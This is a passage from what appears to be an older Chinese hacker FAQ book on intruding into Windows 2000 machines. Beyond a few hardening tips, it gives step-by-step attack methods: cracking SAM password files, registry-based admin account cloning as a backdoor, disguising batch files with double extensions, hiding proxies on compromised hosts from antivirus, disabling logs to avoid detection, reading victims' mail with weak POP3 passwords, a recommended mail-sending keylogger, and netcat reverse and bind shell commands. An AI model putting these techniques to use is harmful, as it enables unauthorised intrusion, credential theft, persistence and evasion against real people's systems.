- b、利用注册表来禁止：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA` 下，把 `RestrictAnonymous` 的值改为 `2`。
- c、修改注册表来达到关闭所有默认共享的目的。如果系统为 win2k svr 的话：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
AutoShareServer（DWORD 类型）改为 0。
```

如果系统为 win2k pro 的话：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
下，把 AutoShareWks（DWORD 类型）改为 0。
```

- d、关闭 IPC$ 所有的服务，到“控制面板→管理工具→服务→server 属性”，停掉这个服务，并且改自动为手动（图11-24）。
- e、其他方法：正确地配置权限，去掉所有文件夹的 ACL 中的 everyone 组。然后加上一个强悍的密码。另外，使用防火墙软件指定规则，屏蔽掉 TCP 139 和 TCP 445 端口。

### 我扫到了好多机器都报告“有可能存在 null.ida 漏洞”，但是当我用这个地址 `http://url/*.ida` 访问的时候只返回信息告诉我找不到 .ida 文件，并没有暴露绝对路径，而且使用工具也不能完成溢出攻击，why?

很显然，对方已经打上了 SP3，但是并没有在 ISAPI 扩展中删除 .ida 扩展，所以导致无法找到该文件，就出现了上述的情况。如果碰到这种情况的话，是无法完成溢出攻击的。

### 听说可以根据 ping 的结果来判断主机的操作系统类型，如何判断？

ping 一台主机的时候，会返回一个叫做 TTL（生存周期）值的东西，不同类型的操作系统的 TTL 值是不一样的。

## 第11章：win2k 入侵常见问题

例如，我 ping 一台 win2k 主机的话，可以看到返回的 TTL 值为 128（图11-25）。这样就可以判断对方为 win2k 的主机了。

图11-25

另外，常见的 UNIX 系统的 TTL 值为 255。

但是，TTL 值是可以修改的，修改方法详见注册表部分。

> 哪里有连接 Terminal Service 终端服务的工具啊？

可以下载酷虎写的 3389 攻击器，很多地方有，down 找一下吧，这个工具在 win98—win2k 的系统中均可使用。

另外，如果有 win2k svr 光盘的话，在光盘下也可以找到，在光盘的 `\CLIENTS\WIN9X` 目录下，这是专门为 win98 的操作系统所准备的 Terminal Service 连接的客户端程序哦。

如果是 XP 的话，大家可以在附件里找，仔细看看，会发现有个叫做远程桌面的东西，其实那个也就是 Terminal Service 的连接程序，也可以使用的。

> 如何才能下载一个网站的数据库呢？

这个比较难了，需要找到这个数据库的路径，然后使用工具直接下载就可以了。一般找数据库路径的过程都是根据经验进行猜测，或是使用社会工程学的知识来搞到这个路径（说明白点就是骗啦）。

> 请问 443—HTTPS，Secure HTTP 有什么用，可以进入吗？

这里的问法有点问题，因为 443 端口对应的服务是 SSL，是一个加密协议，是不能进入的，只能通过一些手段来截取通过该协议进行加密的数据。但是，SSL 是个相对比较高级的协议，而且加上其发展以及多方厂商的支持，致使该协议比较难以攻破。所以截取加密信息是比较难，但是也并不是 Mission Impossible。如果有兴趣的话，可以到一些国外的知名安全网站上找一些相关的 E 文资料，会带来不少的帮助。由于篇幅问题，不再多介绍了。

> 我想用 `nbtstat -a ip` 这个命令来获得对方的一些系统信息，但是结果却是“Host not found.”（图11-26）why?

图11-26

确定三件事：

- 1. 对方是否在线？
- 2. 运行该命令的主机是否安装了 NETBEUI 协议？
- 3. 对方主机是否安装了 NETBEUI 协议？

> 如何破解 win2k 的密码？

使用 LC4 工具就可以了。

到对方的 SAM 文件（路径为 `C:\WINNT\system32\config`），然后使用 LC4 来进行破解。

怎么给文件起双后缀？比如，我有一个文件 readme.txt，想在后面加一个后缀 bat，怎么加？（实际执行的是 bat，一般看见的是 txt）。

这种方法只能在特定的情况下才起作用。来到文件夹选项中，选择“查看”选项卡，然后找到“隐藏已知文件的扩展名”并去掉前面的钩（图11-27）。这时候，所有文件都会显示后缀了。这个时候，再编写一个批处理文件，将它命名为 hack.txt.bat，然后再回到文件夹选项中，选择“查看”，把“隐藏已知文件扩展名”前的钩再钩上。这时候看到的那个批处理文件名就为 hack.txt 了。另外，还可以使用命令进行修改：先建立一个 txt 文件，在里面写上批处理文件中的内容，然后使用命令 `ren hack.txt hack.bat.txt`，这样和上面的方法作用是相同的。

这种方法虽然具有一定的隐藏性，但是实际上非常容易被发现，不建议使用。

我 telnet 别人的端口（不是 23 端口），但不知道用什么命令，好像什么命令都打不上去！

并不是所有的端口都能使用 telnet 进行连接，大部分程序对 telnet 并不响应，因此就出现了无法连接的情况。每个服务都有对应的端口，而每个服务也都有自己的连接方式。例如常见的 FTP 端口，我们就要使用 ftp 命令来进行连接。

如何获得本网段内所有主机的 IP 地址？

介绍一个麻烦的方法，就是先用 `net view` 命令获得所有主机的主机名，然后一个一个地 ping，这样就可以获得主机 IP 了。至于如何 `net view` 已经在 win98 的命令部分讲过了，不重复了，ping 命令大家也都熟悉了。

这里用工具的方法来获得，我们使用局域网超级工具，只要轻轻一点“搜索计算机”就可以找到所有活动主机了（图11-28）。

常见到人们用 `telnet ip 80` 来获得 web 服务器的信息，怎么用啊？

首先要 `telnet ip 80` 来连接对方的……80端口，当呈现为黑屏并有光标闪动的情况下，便证明已连接。这时候只要用 get 方法来获得主机的 Web 服务器信息就可以了。（图11-29）可以看到，获得了主机的 Web 服务器信息，得知该服务器的 Web 发布是使用 Apache 服务器。


## 怎样进入内部网络？

进入内部网络最重要的就是控制对方的网关。网关是局域网与外界进行通信的一扇门，内部网络所有要发送到 Internet 上的请求都必须经过而且也只能经过网关，因此，控制网关才是关键。

## 如何才能确定对方网关的 IP 地址？

一般情况下，抓取数据包进行分析是一个比较好的办法。获得对方内部网络中发送到 Internet 上的数据包进行分析，这里看到的 IP 地址就应该是对方网关的 IP 了。

另外，如果能够通过 QQ 与对方的内部网络中某一台主机进行通信的话，那么，查看 QQ 上的 IP（珊瑚版的 QQ 就有查看 IP 的功能），一般会显示为 ip:xxxx，这里的 xxxx 代表端口号。如果端口号不为 4000 的话，基本上就可以确定在这里获得的 IP 就是对方网关的 IP 地址了。

## 有什么好的工具来连接 SQL SERVER 吗？

如果安装了 SQL SERVER 的话，SQL SERVER 中提供了连接工具；如果没有安装的话，一般都是使用工具 sqlexec.exe，这是 sunx 的作品，很不错。界面蛮漂亮的，在 Host 后填上远程主机地址，User 后写上用户名（一般都是用管理员 sa 进行连接的，所以这里默认写着的用户名就是 sa），Pass 后自然就是口令了，连接方式也可以选择（图11-30）。


其他的就是 SQL SERVER 中的相关知识了，就不多说了。如果大家还不了解的话，学习一下 SQL SERVER 的使用吧。

## 针对 IDQ、IDA 溢出，应该使用什么工具？

使用 snake 的 IIS 溢出工具 IISIDQ，这是一个 GUI 界面的工具，使用方法很简单，而且最大的好处就是可以直接绑定命令。这样，溢出成功的话，就可以让对方直接执行你想要运行的命令了，可以为所欲为。

## 我找到一台路由器，但怎么才能连接上去？

路由器常见的连接方式是直接使用线路连接，这时候要使用超级终端。这都是在调试新路由器的时候才使用的方法，因为这个方法需要调试人员站在路由器面前才可以。另外一种就是 telnet 连接了，绝大部分路由器都会允许 telnet 连接的，不过这都是需要密码的，因此，在获得密码的情况下，telnet 连接上路由器即可。

### 我已经攻占了一台路由器，有什么用？

通过查看路由器的配置可以了解网络的内部拓扑结构，如果可能的话，还可以使用路由器做跳板进一步 telnet 到内部主机，进一步进行入侵，攻入内部网络。相关的需要涉及到一些路由器的命令，由于环境所限，不在此列出，希望有兴趣的朋友可以查看相关书籍。

### 用 3389 远程登录后进行的操作对方在屏幕上可以看到吗？

（假设这样一个环境：对方正在使用管理员在本机进行登录查看，而这时候，你也在使用 Terminal Service 进行远程终端的连接。）

这时候我们使用简单的方法来查看，就是任务管理器。首先打开任务管理器，查看进程，可以看见，当前的进程数为 33（图11-31）。


这时候，我们选中任务管理器进程选项卡中“显示所有用户的进程”。这时候就会发现，用户进程增加到了 42 个（图11-32）。通过这些进程并不容易直接发现已有人远程连接到本机，但是，只要对比进程，会发现有很多进程是相同的（因为这相当于有两个相同的用户同时登录主机啊），这就可以怀疑有人连接了。


如果嫌这个麻烦的话，还有一个更简单的方法：到管理工具中找到“终端服务管理器”，打开这个就会发现当前有人与你进行连接，并且能清楚地看到这个人使用的是哪一个用户（图11-33）。


### 我用 3389 登录上一台机器后，运行了一个程序，退出时没有注销我的用户～但当那台机器的管理员在关机的过程中，会出现“已经有一个用户连接你的计算机，关机会造成数据丢失”的信息框！那么这样就很容易暴露了自己！

确实是这样的。如果没有正确地退出登录，在对方关机的时候必将引起怀疑。如果确实出现这种情况的话，只好自己将自己的账号再次强制注销了。方法是：

先 telnet 连接到对方的主机上，然后使用命令：query user。这时候会发现一个已断开的会话，正常情况下，该会话应该是 1。然后用命令 logoff 1 强制注销掉它。如果值为 0 的话，那就使用 logoff 0 来注销。


## 请问，怎么克隆肉鸡管理员账号？

使用小榕的账号克隆工具 CA。使用方法比较简单（图11-34），关键问题就是要获得对方的管理员账号才可以。


（注意：仔细看会发现，这里 usage 后面写的是 sa，而不是 ca，这大概是小榕的笔误吧。）

假设获得远程主机 192.168.0.1 的管理员账号，然后使用命令：

```txt
ca \\192.168.0.1 python password
aaa python
```

这样就使对方主机上已存在的一个账号 aaa 克隆了管理员账号 python（图11-35）。并且，克隆完成后，用户 aaa 密码为 python。

在使用该工具克隆账号之前，根本没有建立什么 ipc$ 连接，所以，我们可以猜想在克隆过程中也会有建立连接的过程。因此，如果对方的 ipc$ 共享被关闭的话，那么将不能正确地克隆账号。

为了证明这一点，我们仍以远程主机 192.168.0.1 为例，仍然对账号 python 进行克隆，而且依然是使用 aaa 这个账号，不同的是，这次对方关闭了 ipc$ 共享。

```txt
ca \\192.168.0.1 python
password aaa abcdef
```

克隆对方账号 python，使用 aaa 这个账号，密码克隆为 abcdef。（图11-36）可以看到，在 connect 的时候就出错了，可见上面的判断是正确的。因此，要注意，ipc$ 共享对克隆账号的成败与否起关键作用。


## 如何利用注册表克隆账号？

利用注册表克隆账号很简单，编写一个注册表脚本（*.reg 文件），内容如下：

```txt
从这里开始（此行不在脚本内）
Windows Registry Editor Version ...
5.00
[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\[user_name]]
@=hex(1f4);
```

（注意，这里有至少一个回车）

到这里结束（此行不在脚本内）。把上面的内容写到一个文本编辑器中，然后保存为 clone_user.reg。使用的时候，只要将 user_name 改为要进行克隆的用户的用户名就可以了。

然后，就可以使用这个用户名进行登录，但是登录时的密码是 administrator 的密码。

简述一下克隆的原理：来到注册表如下位置：HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names。在下面，先找到管理员的用户名，然后将其右窗口中的默认值导出（图11-37）；另外，再找一个普通用户（这里为用户 aaaa），做同样的工作。


用记事本分别打开这两个 reg 文件，进行比较（图11-38）。很显然，在 win2k 中，不是依靠用户名对用户权限进行识别的，而是 SID。而当 SID 最后三位为 500 的时候（十进制的 500 就是十六进制的 1F4），该用户就为管理员，只有在安装系统时默认系统创建的管理员的 SID 尾数才为 500。


从图中的比较不难看出，我们只要把用户 aaaa 这一行：@=hex(411); 改为 @=hex(1f4); 然后再导入注册表，那么该用户的 SID 的尾数也将成为 500，那么他也是管理员了。这样，后门账号就这样完成了，很简单的，有兴趣的朋友试一下吧。

### 如何在 3389 机上下载文件，让它支持断点续传，或者可以用网际快车之类的软件下载呢？

可以把对方做成一个 FTP 服务器，或是通过使用 IIS。

- 1. 使用 FTP。
- 2. 依次打开：控制面板 → 管理工具 → Internet 服务管理器，找到“默认 FTP 站点”（图11-39）。


点击右键，选择属性，然后选择主目录选项卡。在这里，可以设置 FTP 的主目录，例如，这里设置为 e:\down。

这里有几点要注意：一是要注意给自己足够的权限，干脆就读取写入权限都有。第二点，要注意，千万不要记录日志，否则就露馅了。（图11-40）

然后直接在 IE 地址栏里写上 ftp://ip 访问（或是使用 FTP 工具）对方就可以了，然后得到完整路径后，使用像网络蚂蚁这类工具下载。


这样的下载工具或是 cuteftp 直接进行多线程下载就好了。

## 方法二：使用 Web 页下载

假设要下载的文件在 E:\down，文件名为 down.exe，这时候，要在 Internet 服务管理器中右键“默认 Web 站点”，选择属性，然后选择主目录选项卡，通过点浏览，把 e:\down 文件夹设置为主目录。记住，也不要使用日志（图11-41）。然后在网络蚂蚁中添加新任务，路径为：

```txt
http://ip/down.exe
```

就可以多线程下载文件了。


## 怎样在肉机上建立代理？

建议使用软件：SkSockServer 和 CCProxy。

## 先讲一下 SkSockServer：

使用比较简单。首先，想办法上传 SkSockServer.exe，然后获得一个 shell（最好是 telnet 的 shell，因为这个小东西本来就是在命令行下配置的。虽然说有 GUI 版本，但是我更喜欢命令行下的版本）。直接键入 SkSockServer 会获得帮助信息（图11-42）。


首先，运行命令安装：SkSockServer -install。等待一会，会有安装成功信息（图11-43）。


然后，我们再进行端口配置：SkSockServer config port 5277 就可以了（图11-44）。


这时候还不能用，因为服务还没有启动，所以我们还需要启动服务才可以：net start skserver（图11-45）。这时候，就可以使用这个代理服务器了。


## 接下来讲一下 CCProxy：

这是一个 GUI 的代理工具，其实在肉鸡上运行很容易被发现，不过就其功能来说，实在是强大。界面蛮漂亮的（图11-46），使用起来也比较简单。


图11-46


图11-49

设置按钮（图11-47）：可以看到，支持很多的协议，想要做什么代理，开什么就可以了。FTP 等等，功能十分强大（图11-50）。


图11-47


图11-50

另外，注意上图中的那个有一个字母“E”的按钮，点一下会发现，CCProxy 还有端口映射功能。它可以把远程主机的 TCP 或是 UDP 端口映射到本机的一个端口上（图11-48），这样一来，对访问者来说带来了不少方便。

通过简单的介绍，想必大家也都了解如何使用了。

总的来说，如果在肉鸡上使用 CCProxy，比较容易被发现，不过可以通过点击隐藏按钮来将该软件图标隐藏到任务栏中，可还是比较容易被发现。所以，这里就教大家一个方法。


图11-48

打开任务管理器，并到进程选项卡中，找到 explorer.exe 这个进程（图11-51），结束它。这时候会发现桌面一片蓝色，什么都没有。再使用 ctrl+alt+del 组合键激活“Windows 安全”，选择任务管理器，在应用程序卡片中点“新任务”，然后输入 explorer.exe，然后确定。这时候就会发现任务栏中的 CCProxy 代理图标不见了。

账号按钮（图11-49），在这里，允许访问可以设置为“允许所有”“允许部分”“不允许部分”。

选择“允许部分”，点新建按钮，可以看到针对每个用户可以设置用户名和密码；还可以设置连接哪种协议（HTTP、FTP）。

怎么样？一个不错的隐藏方法吧（虽然还是可以看见进程，但是安全多了，最重要的是 CCProxy 不会被当做后门软件被杀毒软件查杀），对于开了 3389 的肉鸡可以尝试一下使用 CCProxy 哦！


### 怎么使用代理啊？我不会设置。

大部分可以连接到 Internet 上的软件都会有设置代理的地方，首先说一下 IE。

依次打开：工具 → Internet 选项 → 连接。在这里停住，如果是拨号连接的话，先要选择当前使用的连接（图11-52），然后点“设置”，在这里就可以设置代理服务器了，注意正确填写地址和端口（图11-53）。


如果是使用局域网上网的话，在连接选项卡中直接点“局域网设置”（图11-54）。


然后正确填写 IP 地址和端口号就可以了（图11-55）。


## 为网络蚂蚁设置代理

点击选项 → 参数设置，在这里选择代理选项卡，点添加，选择代理的类型（图11-56）。


在这里，我选择了 SOCKS5 类型的代理，然后填写上正确的地址和端口后，点确定即可。回到代理选项卡中，选中刚才添加的代理，然后在下面的 HTTP 默认值和 FTP 默认值以及“所有任务都使用默认代理”前打上钩，这样就可以保证所有的任务都是通过代理来下载的了（图11-57）。


图11-57

## 为扫描工具 x-scan 设置代理

点击设置 → 扫描参数，然后在弹出的卡片中选择“代理服务器”卡片，在这里填写上代理服务器的地址和端口即可。（图11-58）


图11-58

也许大家注意到，x-scan 这里需要的是 HTTP 代理，不过不要紧，只要使用 SOCKS5 代理就可以了。

## 为你的 QQ 设置代理：

打开 QQ 后，点 QQ 左下角的“QQ2000”图标，然后选择“参数设置”，里面有一个卡片为“网络设置”。在这里，在“使用 SOCKS5 代理”前打上钩，然后填写上代理的 IP 地址和端口号就可以了。（图11-59）


图11-59

## 为 OE 设置代理：

其实根本不需要这部分，只是给大家做个提醒而已。因为 Outlook Express 是和 IE 整合在一起的，因此，当 IE 的代理被设置成功后，OE 就会自动使用这个代理来进行收发邮件了。

### 我有两个代理服务器，怎么能设置成双重代理？

大家都应该装有 QQ 吧，打开 QQ 中带的腾讯浏览器 TE，在里面的 Internet 选项中设置一个代理服务器（方法与在 IE 中设置完全相同），然后再打开 IE，以同样方法再设置另外一个代理服务器，这样就做成了最简单的双重代理了。另外，很多地方也提供二重或是多重代理服务器，到一些搜索引擎上搜索一下“多重代理”就可以了。

### 怎样解决 telnet 时到主机的“连接丢失”呢？

引起这种问题的原因大部分是因为 NTLM 验证的问题。解决方法比较简单，我们只要上传 ntlm.exe 并使用 at 命令来定时运行它，就可以取消对方的 NTLM 验证了。

不过，除此之外，还有一个方法可以更快。

首先到 c:\winnt\system32（win2k 安装在 C 盘的情况）中找到 cmd.exe，并为它创建一个快捷方式，然后右键这个快捷方式，并选择“快捷方式”选项卡，在“以其他用户身份运行”前打上钩（图11-60），然后点确定。


这时候，在你的计算机中建立一个与对方管理员用户名和密码相同的用户（如果你和对方的管理员名均为 administrator，那么就修改你的密码和对方密码相同。另外，要注意，要保证在本地机上的这个用户也是管理员才可）；然后再运行 cmd.exe 的这个快捷方式，这时候会弹出对话框询问你要以哪个用户身份运行该程序（图11-61），填写上刚才建立的那个和对方相同的用户名和密码之后点确定，这时候再 telnet 过去就可以取消掉 NTLM 验证了。


### 建立 ipc$ 连接的时候，出现“提供的凭据与已存在的凭据集冲突。”怎么回事？（图11-62）


这是因为在此之前已经和对方建立了 ipc$ 连接，先删除连接，再进行 ipc$ 连接就可以了。（图11-63）


### 一台机器有输入法漏洞，但是按 Shift+Ctrl 切换输入法后，右键并点帮助，总是没有帮助栏弹出来啊？

我想，对方应该是简单地把输入法的帮助文件删除而已，而并不是通过打补丁的办法来解决问题的。所以，这样的机器也并不是很难入侵，不过，关键问题是要获得另外一个漏洞。如果连输入法漏洞都有的话，嘿嘿，那可漏洞多多了，随便找个漏洞，将要使用的输入法的帮助文件上传到对应的目录中去，然后就可以使用输入法漏洞了。

例如，这里我要使用微软拼音输入法的话，就在本地机上找到微软输入法的帮助文件所在位置，至于如何查找文件的帮……助和位置，可以像使用输入法漏洞一样，先右键输入法条，然后选“帮助”，在弹出帮助中，右键蓝色窗口条，选“跳至 URL”，在这里，上面的部分就有输入法的路径和帮助文件名了（图11-64）。

图11-64

然后，到这个路径下，找到输入法的帮助文件并上传到对方相应的目录中，这时候，再用终端服务客户端连上去就可以用输入法漏洞了。

我知道一台用 IPC$ 链接到的 WIN2000 的 administrator 和密码，可是我每次链接上以后，用 `dir c:\` 所看到的都是本机的 `c:\`，请问这是为什么啊？

ipc$ 只是一种连接，并不是登录，只有登录到对方的主机上才能查看对方的资源（当然，也要有权限才可以），但是，这并不代表建立了连接就没有办法。我们可以使用 `dir` 命令，`dir` 命令在 win2k 中是有带 IP 参数的（在 win98 中是否有，我没有试过），命令为：`dir \\ip\c$`（图11-65）。

图11-65

这样就可以查对方默认共享的 C 盘了（当然，前提是建立 ipc$ 连接，而且建立的时候使用的用户要有查看权限）。另外，还可以先使用命令 `net use z: \\ip\c$` 先将对方的 C$ 盘映射到本地的 Z 盘，然后再 `dir z:\` 来查看资源（图11-66）。（前提也是建立 ipc$ 连接并有足够的权限）。

图11-66

`net use z: \\000.000.000.000\c$ /user:admin`，返回提示：密码在 `\\218.27.15.143\f$` 无效。为什么？

I服了U。这个命令还真够有创意的。看来把概念给搞混了，在映射对方磁盘前，我们要先建立 ipc$ 连接：`net use \\x.x.x.x\ipc$ "pass" /user:"name"`，这一步完成后，我们才可以开始映射磁盘：`net use z: \\x.x.x.x\c$`，这样就映射对方的 C 盘到本地的 Z 盘了。

请问有什么好的键盘记录器呢？带邮件功能的。

早一些的工具有键盘幽灵，还算不错，不过，现在我推荐使用广外幽灵，这是一款记录键盘动作的工具，而且上面还带有邮件发送功能，十分方便，只要让对方运行后，在你的信箱中等待接收密码就可以了。不过要注意，这里的邮箱要使用不需要验证的 SMTP 信箱，否则的话，密码将不能发送。

另外，针对现在各种软件还有专门的键盘记录工具，例如针对 QQ 的、针对大型网络游戏传奇的。

在这里，我不会做过多的介绍，因为真正的黑客不会将他的兴趣停留在这种地方，而且也劝那些正在因偷盗一些 QQ 号或是游戏帐号而感到高兴甚至有些飘飘然的朋友们，尽早停止你这种无聊的所谓的黑客行动吧。

## 要怎么样才能进入内部网络？

对于大部分内部网络，进入是有一定的难度的，但这并不等于不可能，只要注意观察，多想多做，做起来还是比较容易的。而且，进入内部网络最关键的就是要攻占该网络的网关，内部网络基本上毫无安全可言，因此，只要能攻占下网关，这个网络差不多就算是被你攻占了。

（在《黑客X档案》第六期我有一篇关于进入内部网络的文章，虽然说方法比较简单，但是从分析到入侵，整个过程我认为还是比较详细的，望大家参考。）

## 我得到了一部路由器的密码，但是，对路由器的命令不太了解，能教教我吗？

现在越来越多的朋友都把攻击的目光投到了路由器上，看来，给大家恶补一下路由器的知识是有必要的了。这里，简单地给大家补习一点基础知识，先凑合着用。

先说一下命令状态，telnet 到路由器上之后，在输入命令的状态下，会出现像 `router>` 这样的提示符。在不同的登录状态下，是不一样的，因此有必要了解一下：

- 1. **router>**  
  路由器处于用户命令状态，这时用户可以看路由器的连接状态、访问其它网络和主机，但不能看到和更改路由器的设置内容。
- 2. **router#**  
  在 `router>` 提示符下键入 `enable`，路由器进入特权命令状态 `router#`，这时不但可以执行所有的用户命令，还可以看到和更改路由器的设置内容。
- 3. **router(config)#**  
  在 `router#` 提示符下键入 `configure terminal`，出现提示符 `router(config)#`，此时路由器处于全局设置状态，这时可以设置路由器的全局参数。
- 4. **router(config-if)# / router(config-line)# / router(config-router)#**  
  路由器处于局部设置状态，这时可以设置路由器某个局部的参数。
- 5. **路由器处于 RXBOOT 状态**  
  在开机后 60 秒内按 `ctrl-break` 可进入此状态，这时路由器不能完成正常的功能，只能进行软件升级和手工引导。

看到了么？特权模式下，就相当于使用了 root 登录系统一样。

以下，讲述几个常用的命令：

首先，给大家带来的是“？”，这个是帮助用的，输入问号就可以获得命令的相关帮助了。

上面的部分介绍了几种模式，在这里，说一下如何进入这几种模式：

| 功能 | 命令 |
|---|---|
| 进入特权命令状态 | enable |
| 退出特权命令状态 | disable |
| 进入设置对话状态 | setup |
| 进入全局设置状态 | config terminal |
| 退出全局设置状态 | end |
| 进入端口设置状态 | interface typeslot/number |
| 进入子端口设置状态 | interface typenumber.subinterface [point-to-point \| multipoint] |
| 进入线路设置状态 | line type slot/number |
| 进入路由设置状态 | router protocol |
| 退出局部设置状态 | exit |
| 查看版本及引导信息 | show version |
| 查看运行设置 | show running-config |
| 查看开机设置 | show startup-config |
| 显示端口信息 | show interface type slot/number |
| 显示路由信息 | show ip router |

另外，还有一些显示路由器信息的命令，也比较重要。

除了这些，像这三个命令：`ping`、`telnet` 和 `trace`，也可以在路由器上使用。

OK，就暂时给大家灌这么多吧，这些东西都是基础中的基础了，好好记下来，等哪天你进了一台路由器的时候就会有用了。

如何使用得到的 POP3 弱口令？

除了帮人家收信以外，也没什么太好的办法了。不过不要小看这些信件，有可能会带给你一些入侵相关的有用信息哦。教大家配置一下 OE 来收信吧（会的就不要看了）：

打开 OE（Outlook Express）后，点击工具菜单，选择账户，弹出 Internet 账户卡，选择“邮件”卡片，点“添加”按钮，然后选择邮件，出现向导框（图11-67），然后按照提示填写。这里，POP3 的地址则是填写你扫到 POP3 弱口令的主机的 IP，用户名和密码就是你扫到的弱口令的用户和口令了。

图11-67

配置完成后，在 OE 的主页面点“发送/接收”就可以了。

POP3 会把邮件下载到本地，这样容易引起一些人的怀疑，所以我们可以进行这样的设置：在 OE 的主界面选择“工具→选项”，然后选择“维护”选项卡，这里有一项“新闻邮件下载 X 天后即被删除”（图11-68），在这里把天数设置得长一些，免得你收完邮件后那位朋友再收的时候就收不到了。

## 如何确定一主机的 POP3 服务器地址？

一般默认情况下，一些大型站点的 POP3 服务器就是 `pop3.xxx.com` 这种形式的，当然，也有特殊的，例如 263 信箱的地址等等。

但是，一般的中小型企业的邮件服务器都是和 web 服务器放置在同一台主机上的，所以说，可以用最简单的形式进行判断，那就是直接取得对方的 IP 地址，只要 ping 一下对方的域名就可以了，这样就相当于取得了 POP3 的地址。这种方法针对大多数的 web 站点都是很有效的。

## NC 都是 E 文啊，参数解释都看不懂，贴篇中文的 NC 参数解释吧。

这个好说，NC 参数的中文版：

- `-e prog` 程序重定向，一旦连接，就执行【危险!!】
- `-g` gatewaysource-routing hop point[s], up to 8
- `-G num` source-routing pointer; 4, 8, 12, -h
- `-h` 帮助信息
- `-i secs` 延时的间隔
- `-l` 监听模式，用于入站连接
- `-n` 指定数字的 IP 地址，不能用 hostname
- `-o file` 记录 16 进制的传输
- `-p port` 本地端口号
- `-r` 任意指定本地及远程端口
- `-s addr` 本地源地址
- `-u` UDP 模式
- `-v` 详细输出，用两个 `-v` 可得到更详细的内容
- `-w secs` timeout 的时间
- `-z` 将输入输出关掉，用于扫描时

## 我用的 NC 参数怎么这么少啊？

现在的 NC 我见过两个版本，一个是被编译过的，个头很小，大概是 20K 左右；另外一个则大一些，大小为 58K 左右。两个 NC 大小不同，参数也有不同。个头大一些的 NC 大概要比编译过的 NC 多两三个参数，不要小看这两三个参数，很有用的，所以建议使用 58K 的 NC。

## 如何使用 NC 进行端口扫描？

使用 NC 进行扫描有两种方法，一种是扫描 TCP 端口，另外一种则是扫描 UDP 端口。

扫描 TCP 端口：

```bash
nc -v ip_address(machine_name) port-port
```

例如，使用这个命令：`nc -v python 1-150`，扫描主机名为 python 的主机的 TCP 端口 1 至 150（图11-69），可以看到每个端口对应的服务名和开放状况。

扫描 UDP 端口：

```bash
nc -z -v -u ip_address(machine_name) port-port
```

例如，命令 `nc -z -v -u python 1-200` 则是扫描 python 的 1 到 200 号 UDP 端口（图11-70）。

如何使用 NC 建立反向连接？

首先，要在本地机上运行命令 `nc -vv -l -p 5277`，这样就是在本地机上打开 5277 端口进行监听。然后，随便你使用什么方法，在远程主机上运行命令……

运行命令 `nc -e cmd.exe ip_address(machine_name) 5277`，这个命令的作用是在远程主机上将远程主机的 `cmd.exe` 这个 shell 绑定到指定的 IP 地址（或主机名）的主机的 5277 端口上。这样就可以理解为远程机从某个端口与本地机的 5277 端口连接，这样你就在本地机的 5277 端口上获得一个 shell（图11-71）。

ncx99 是什么东西，和 nc 有什么区别么？

你的肉鸡运行了 ncx99 以后，你将可以从 99 端口处获得一个 shell。而且连接方式是 telnet，因此只要直接 `telnet ip 99` 就可以了。但是，如果手头没有 ncx99，有 NC（未被编译过的版本）的话，使用 NC 带上它的一些参数，可以达到相同的目的。命令格式为：

```bash
nc -l -p 5277 -e cmd.exe
```

作用就是监听本地的 5277 端口，并且将 `cmd.exe` 重定向到 5277 这个端口。这样，当远程主机 telnet 到本地机的 5277 端口的时候，`cmd.exe` 就会响应，这样就获得了一个 shell 了（图11-72）。

图11-72

注销成功后，再查看一下用户，唉，可以的话就赶快连上去，不然手慢了就又……

我登入 3389 主机，却出现超过了容许的最大连接数的错误，怎么办？我有管理员权限的。

2000 SERVER 终端服务好像同时只可以上 2 个连接，不管你在配置上如何设置。在 3389 中，断开和注销是两个不同的概念，虽然一个用户断开了，但他的会话是没有停止的，他下次登录时可以直接进入上次断开的会话，而不需要重新初始化新的会话。在你说的这种情况里，系统认为还是有 2 名用户连接，所以会出错。当你注销一个用户连接后，你就可以上了。

解决办法：telnet 连接到主机上，使用命令查看：`query user`，可以看到当前的连接状况（图11-73）。

```bash
query user
```

图11-73

图中只有一个人进行连接，也许在这里你会看到两个人在连接中，你只要给其中的一个用户注销掉就可以了，这里使用命令为：`logoff 1`（图11-74）。

```bash
logoff 1
```

图11-74

请问 3389 终端服务有什么快捷键啊？

- 总结一些快捷键：
- `CTRL+ALT+END` 打开“Windows 安全”对话框。
- `ALT+PAGE UP` 从左向右在程序之间切换。
- `ALT+PAGE DOWN` 从右向左在程序之间切换。
- `ALT+INSERT` 按启动顺序来回切换程序。
- `ALT+HOME` 显示“开始”菜单。
- `CTRL+ALT+BREAK` 在窗口（如果适用）和全屏显示之间切换客户端。
- `ALT+DELETE` 显示窗口的弹出式菜单。
- `CTRL+ALT+减号(-)` 将客户端活动窗口的快照放在“终端”服务器的剪贴板上（与在本地计算机上按下 `ALT+PrintScrn` 键时的功能相同）。
- `CTRL+ALT+加号(+)` 将整个客户端窗口区域的快照放在“终端”服务器的剪贴板上（与在本地计算机上按下 `PrintScrn` 键时的功能相同）。

3389 登录会留下什么记录，如何清除？

不用怕啦，盖茨怕黑客们不敢通过 Terminal Service 登录，所以他特别注意到了日志记录这方面，在盖茨的关照下，Terminal Service 默认情况下是没有任何日志和记录的。但是，有一点要注意，就是系统的审核以及一些应用程序的日志，这些有可能会留下你的脚印，不过相比之下，清除这些记录要轻松得多了。

## win2k部分

**注意：**以上讨论的是正常方式下的日志和记录，如果使用 Terminal Service 连接过程中出现意外的话，就有可能会被记录下 IP 地址。最常见的就是当用户以终端方式登录后又发生了中断，这时候系统才会记录客户机的 IP 以及机器名。但是，上有政策，下有对策，就是在记录 IP 这一部分，有一点点小 bug 哦。

系统在记录终端方式的客户机 IP 地址的时候，如果你的客户机处于一个局域网中，通过透明网关的方式访问服务器，在服务器上留下的 IP 也只是你内网的 IP 地址。所以说，如果你的内部网络的 IP 呈 192.168.0.1 这种最最通俗的方法进行排列的话，呵呵，那即使对方记录了 IP 地址也是没有用的。

## 如何远程确定对方的 Terminal Service 是否开放？

如果手头没有扫描工具的话，确实比较难判断对方服务是否开放。另外一种情况就是对方修改了服务端口，也比较麻烦。所以这里我们使用 resource kit 中的 SC 来直接查看服务，而不是通过端口进行查看。

```bash
sc \\ip_address(machine_name) qc termservice
```

这时候，根据返回信息就可以判断对方的服务是开启状态还是关闭状态，或是被禁止的状态。（图11-75）

